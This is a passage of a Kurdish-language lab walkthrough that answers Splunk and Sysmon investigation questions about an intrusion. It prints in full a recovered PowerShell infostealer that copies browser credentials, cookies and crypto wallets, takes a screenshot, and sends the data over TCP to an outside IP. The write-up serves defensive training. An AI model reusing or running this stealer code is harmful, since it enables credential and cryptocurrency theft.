

بۆ زیاتر دلینابوونمان ئەتوانین یەم کوێریە بەکار بێنین.

```bash
EventCode=3 earliest="04/21/2026:01:50:00" DestinationIp=165.245.213.184
| table _time, Image, ProcessId, SourceIp,SourcePort, DestinationIp, DestinationPort
```

> وەلامی پرسیاری شانزەیەم: **165.245.213.184**


### پرسیاری حەڤدەیەم ١٧

> What destination port did the attacker use to exfiltrate data from the second workstation?

بەکارهێنانی هەمان کوێری پێشوو وەلامەکەمان پێ ئەدات.




> وەلامی پرسیاری حەڤدەیەم: **4444**

## Defense Evasion
### پرسیاری هەژدەیەم ١٨

> At what UTC time was the service binary identified in Q11 deleted from the file server? Answer in HH:mm:ss format using the 24-hour clock.

هەر کاتێک بە دوای فایلێکی سراو بگەرێی ئەوە Sysmon Event ID 23 یارمەتیدەرت ئەبێ لە دۆزینەوەی.





> وەلامی پرسیاری هەژدەیەم: **00:30:47**

## Impact
### پرسیاری نۆزدەیەم ١٩


> Recover version 2 (v2) of the stealer script identified in Q13. How many execution phases are defined in that version?

هەر وەکو چۆن لە پرسیارەکانی پێشوو وتمان بۆوەی سکریپتی کاملی PowerShell ببینین پێویستە Event ID 4104 بەکار بێنین.
بە بەکارهێنانی ئەم کوێریە سکریپتەکەمان پێ ئەداد.

```bash
EventCode=4104 earliest="04/21/2026:00:30:00" "*svc_update*"
| sort _time
```

ئەم سکریپتە لە ٦ بەش پێکهاتوە کە با ناوی Phase جیا کراوەتەوە، هەر بەشێک کردارێک ئەنجام ئەدات. گەر سێرێکی ---- PHASE D: Data Collection ---- بکەین، ئەبینین کەوا ئەو کۆدە دەس ئەکات بە کۆکردنەوەی ئەو فایلانە کە زانیاری هەستیار لە خۆی ئەگرێت.

```powershell
param(
    [string]$ExfilIP   = "165.245.213.184",
    [int]$ExfilPort    = 8443,
    [switch]$SkipChecks
)

$VerbosePreference = "Continue"
Write-Verbose "======================================="
Write-Verbose " VodkaStealer Emulator - Lab 242"
Write-Verbose "======================================="

# ---- PHASE A: Pre-Flight (geo + mutex only, no VM checks) ----

function Invoke-PreFlightChecks {
    Write-Verbose "[*] Running pre-flight checks..."

    $layouts = [System.Globalization.CultureInfo]::InstalledUICulture
    $kbLayouts = Get-WinUserLanguageList -ErrorAction SilentlyContinue
    foreach ($kb in $kbLayouts) {
        if ($kb.LanguageTag -match "^ru|^be") {
            Write-Verbose "[!] Russian/Belarusian keyboard detected - exiting"
            return $false
        }
    }

    try {
        $geoResp = Invoke-RestMethod -Uri "http://ip-api.com/json" -UseBasicParsing -TimeoutSec 5
        $countryCode = $geoResp.countryCode
        if ($countryCode -in @("RU", "BY")) {
            Write-Verbose "[!] Geo-check: $countryCode - exiting"
            return $false
        }
        $script:PublicIP = $geoResp.query
        $script:CountryCode = $countryCode
    } catch {
        $script:PublicIP = "10.0.0.1"
        $script:CountryCode = "US"
    }

    $markerPath = Join-Path $env:TEMP "sysinfo_user_marker.marker"
    if (Test-Path $markerPath) {
        Write-Verbose "[!] Marker file exists - already executed"
        return $false
    }

    $mutexName = "Global\sysinfo_single_instance"
    $createdNew = $false
    try {
        $script:Mutex = [System.Threading.Mutex]::new($true, $mutexName, [ref]$createdNew)
        if (-not $createdNew) {
            Write-Verbose "[!] Mutex exists - another instance running"
            return $false
        }
    } catch { }

    [System.IO.File]::WriteAllText($markerPath, (Get-Date).ToString())
    return $true
}

# ---- PHASE B: Browser Kill ----

function Invoke-BrowserKill {
    Write-Verbose "[*] Killing browser processes to unlock DB files..."
    $browsers = @("chrome", "msedge", "brave", "opera", "vivaldi", "browser", "firefox")
    foreach ($browser in $browsers) {
        $procs = Get-Process -Name $browser -ErrorAction SilentlyContinue
        if ($procs) {
            &amp; taskkill /F /IM "$browser.exe" 2&gt;$null | Out-Null
            Write-Verbose "  Killed: $browser.exe ($($procs.Count) instances)"
        }
    }
}

# ---- PHASE C: Staging Directory ----

function New-StagingDirectory {
    $now = Get-Date
    $dirName = "sysinfo_{0}_{1}_{2:D2}{3:D2}{4:D4}{5:D2}{6:D2}" -f `
        $script:CountryCode, `
        $script:PublicIP, `
        $now.Day, $now.Month, $now.Year, $now.Hour, $now.Minute
    $stagingPath = Join-Path $env:TEMP $dirName
    New-Item -ItemType Directory -Path $stagingPath -Force | Out-Null
    Write-Verbose "[*] Created staging dir: $stagingPath"
    return $stagingPath
}

# ---- PHASE D: Data Collection ----

function Invoke-DataCollection {
    param([string]$StagingDir)
    Write-Verbose "[*] Starting data collection..."

    # D1: Installed Software
    Write-Verbose "  Collecting installed software..."
    $uninstallPaths = @(
        "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*",
        "HKLM:\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*",
        "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*"
    )
    $software = foreach ($path in $uninstallPaths) {
        Get-ItemProperty $path -ErrorAction SilentlyContinue |
            Where-Object { $_.DisplayName } |
            Select-Object DisplayName, DisplayVersion, Publisher, InstallDate
    }
    $softwareFile = Join-Path $StagingDir "InstalledSoftware.txt"
    $software | Format-Table -AutoSize | Out-String | Set-Content -Path $softwareFile

    # D2: System Information
    Write-Verbose "  Collecting system information..."
    $sysInfoLines = @(
        "OS Version:       $([Environment]::OSVersion.VersionString)",
        "Computer Name:    $env:COMPUTERNAME",
        "Username:         $env:USERNAME",
        "Domain:           $env:USERDOMAIN",
        "Public IP:        $($script:PublicIP)",
        "Country Code:     $($script:CountryCode)",
        "System Dir:       $env:SystemRoot",
        "Temp Dir:         $env:TEMP",
        "System Time:      $(Get-Date -Format 'yyyy-MM-dd HH:mm:ss')"
    )
    $sysInfoFile = Join-Path $StagingDir "systeminfo.txt"
    $sysInfoLines -join "`r`n" | Set-Content -Path $sysInfoFile

    # D3: Screenshot
    Write-Verbose "  Capturing screenshot..."
    try {
        Add-Type -AssemblyName System.Windows.Forms -ErrorAction SilentlyContinue
        Add-Type -AssemblyName System.Drawing -ErrorAction SilentlyContinue
        $screen = [System.Windows.Forms.Screen]::PrimaryScreen.Bounds
        $bitmap = New-Object System.Drawing.Bitmap($screen.Width, $screen.Height)
        $graphics = [System.Drawing.Graphics]::FromImage($bitmap)
        $graphics.CopyFromScreen($screen.Location, [System.Drawing.Point]::Empty, $screen.Size)
        $graphics.Dispose()
        $screenshotPath = Join-Path $StagingDir "screenshot.png"
        $bitmap.Save($screenshotPath, [System.Drawing.Imaging.ImageFormat]::Png)
        $bitmap.Dispose()
        Write-Verbose "    screenshot saved"
    } catch {
        Write-Verbose "    Screenshot failed: $($_.Exception.Message)"
    }

    # D4: Chromium Browser Data
    Write-Verbose "  Collecting browser data..."
    $browserPaths = @{
        "Chrome"   = "$env:LOCALAPPDATA\Google\Chrome\User Data"
        "Edge"     = "$env:LOCALAPPDATA\Microsoft\Edge\User Data"
        "Brave"    = "$env:LOCALAPPDATA\BraveSoftware\Brave-Browser\User Data"
        "Opera"    = "$env:APPDATA\Opera Software\Opera Stable"
        "OperaGX"  = "$env:APPDATA\Opera Software\Opera GX Stable"
        "Vivaldi"  = "$env:LOCALAPPDATA\Vivaldi\User Data"
        "Yandex"   = "$env:LOCALAPPDATA\Yandex\YandexBrowser\User Data"
        "Chromium" = "$env:LOCALAPPDATA\Chromium\User Data"
    }
    $targetFiles = @("Login Data", "Cookies", "Web Data", "History", "Bookmarks", "Local State")
    foreach ($browserName in $browserPaths.Keys) {
        $browserPath = $browserPaths[$browserName]
        if (Test-Path $browserPath) {
            $browserDir = Join-Path $StagingDir $browserName
            New-Item -ItemType Directory -Path $browserDir -Force | Out-Null
            $defaultProfile = Join-Path $browserPath "Default"
            if (Test-Path $defaultProfile) {
                foreach ($file in $targetFiles) {
                    $src = Join-Path $defaultProfile $file
                    if (Test-Path $src) {
                        Copy-Item -Path $src -Destination $browserDir -Force -ErrorAction SilentlyContinue
                    }
                }
            }
            Write-Verbose "    $browserName data collected"
        }
    }

    # D5: Firefox
    Write-Verbose "  Collecting Firefox data..."
    $firefoxProfiles = "$env:APPDATA\Mozilla\Firefox\Profiles"
    if (Test-Path $firefoxProfiles) {
        $profiles = Get-ChildItem $firefoxProfiles -Directory
        foreach ($profile in $profiles) {
            $ffDir = Join-Path $StagingDir "Firefox_$($profile.Name)"
            New-Item -ItemType Directory -Path $ffDir -Force | Out-Null
            $ffFiles = @("logins.json", "cookies.sqlite", "key4.db", "cert9.db")
            foreach ($file in $ffFiles) {
                $src = Join-Path $profile.FullName $file
                if (Test-Path $src) {
                    Copy-Item -Path $src -Destination $ffDir -Force -ErrorAction SilentlyContinue
                }
            }
            Write-Verbose "    Firefox profile: $($profile.Name)"
        }
    }

    # D6: Wallet and App Data
    Write-Verbose "  Collecting wallet/application data..."
    $appPaths = @{
        "FileZilla"    = "$env:APPDATA\FileZilla\recentservers.xml"
        "OpenVPN"      = "$env:APPDATA\OpenVPN Connect\profiles"
        "Exodus"       = "$env:APPDATA\Exodus"
        "Electrum"     = "$env:APPDATA\Electrum\wallets"
        "Jaxx"         = "$env:APPDATA\com.liberty.jaxx"
        "Guarda"       = "$env:APPDATA\Guarda"
        "LedgerLive"   = "$env:APPDATA\Ledger Live"
        "Trezor"       = "$env:APPDATA\Trezor Bridge"
        "BitcoinCore"  = "$env:APPDATA\Bitcoin"
        "Coinomi"      = "$env:LOCALAPPDATA\Coinomi"
        "Litecoin"     = "$env:APPDATA\Litecoin"
    }
    foreach ($appName in $appPaths.Keys) {
        $appPath = $appPaths[$appName]
        if (Test-Path $appPath) {
            $destDir = Join-Path $StagingDir "Apps\$appName"
            New-Item -ItemType Directory -Path $destDir -Force | Out-Null
            try {
                if ((Get-Item $appPath).PSIsContainer) {
                    Copy-Item -Path "$appPath\*" -Destination $destDir -Recurse -Force -ErrorAction SilentlyContinue
                } else {
                    Copy-Item -Path $appPath -Destination $destDir -Force -ErrorAction SilentlyContinue
                }
                Write-Verbose "    $appName data collected"
            } catch { }
        }
    }

    # D7: Browser Extension Data (Crypto Wallets)
    Write-Verbose "  Collecting browser extension data..."
    $walletExtensions = @{
        "MetaMask"       = "nkbihfbeogaeaoehlefnkodbefgpgknn"
        "Phantom"        = "bfnaelmomeimhlpmgjnjophhpkkoljpa"
        "TrustWallet"    = "egjidjbpglichdcondbcbdnbeeppgdph"
        "CoinbaseWallet" = "hnfanknocfeofbddgcijnmhnfnkdnaad"
    }
    $chromePath = "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Extensions"
    if (Test-Path $chromePath) {
        foreach ($walletName in $walletExtensions.Keys) {
            $extId = $walletExtensions[$walletName]
            $extPath = Join-Path $chromePath $extId
            if (Test-Path $extPath) {
                $destDir = Join-Path $StagingDir "Wallets\$walletName"
                New-Item -ItemType Directory -Path $destDir -Force | Out-Null
                Copy-Item -Path "$extPath\*" -Destination $destDir -Recurse -Force -ErrorAction SilentlyContinue
                Write-Verbose "    $walletName extension data collected"
            }
        }
    }
}

# ---- PHASE E: Exfiltration ----

function Invoke-Exfiltration {
    param(
        [string]$StagingDir,
        [string]$TargetIP,
        [int]$TargetPort
    )
    Write-Verbose "[*] Packaging and exfiltrating data..."

    $zipPath = "$StagingDir.zip"
    try {
        Compress-Archive -Path "$StagingDir\*" -DestinationPath $zipPath -Force
        Write-Verbose "  Packaged: $zipPath"
    } catch {
        Write-Verbose "  ZIP failed, sending raw..."
        $zipPath = $null
    }

    try {
        $client = New-Object System.Net.Sockets.TcpClient
        $client.Connect($TargetIP, $TargetPort)
        $stream = $client.GetStream()

        if ($zipPath -and (Test-Path $zipPath)) {
            $data = [System.IO.File]::ReadAllBytes($zipPath)
        } else {
            $infoFile = Join-Path $StagingDir "systeminfo.txt"
            $data = [System.IO.File]::ReadAllBytes($infoFile)
        }

        $stream.Write($data, 0, $data.Length)
        $stream.Flush()
        $stream.Close()
        $client.Close()
        Write-Verbose "[*] Exfiltrated $($data.Length) bytes to ${TargetIP}:${TargetPort}"
    } catch {
        Write-Verbose "[!] Exfiltration failed: $($_.Exception.Message)"
    }
}

# ---- PHASE F: Cleanup ----

function Invoke-SelfCleanup {
    param([string]$StagingDir)
    Write-Verbose "[*] Cleaning up..."

    $zipPath = "$StagingDir.zip"
    if (Test-Path $zipPath) {
        Remove-Item $zipPath -Force -ErrorAction SilentlyContinue
    }
    if (Test-Path $StagingDir) {
        Remove-Item $StagingDir -Recurse -Force -ErrorAction SilentlyContinue
        Write-Verbose "  Deleted staging dir"
    }
    Write-Verbose "[*] Cleanup complete."
}

# ---- MAIN ----

if (-not $SkipChecks) {
    $checksOK = Invoke-PreFlightChecks
    if (-not $checksOK) {
        Write-Verbose "[!] Pre-flight check failed - exiting silently"
        exit 0
    }
} else {
    $script:PublicIP = "10.0.0.1"
    $script:CountryCode = "US"
    Write-Verbose "[*] Pre-flight checks skipped (lab mode)"
}

Invoke-BrowserKill
$stagingDir = New-StagingDirectory
Invoke-DataCollection -StagingDir $stagingDir
Invoke-Exfiltration -StagingDir $stagingDir -TargetIP $ExfilIP -TargetPort $ExfilPort
Invoke-SelfCleanup -StagingDir $stagingDir
Write-Verbose "[*] VodkaStealer emulation complete."
```

> وەلامی پرسیاری نۆزدەیەم: **6**


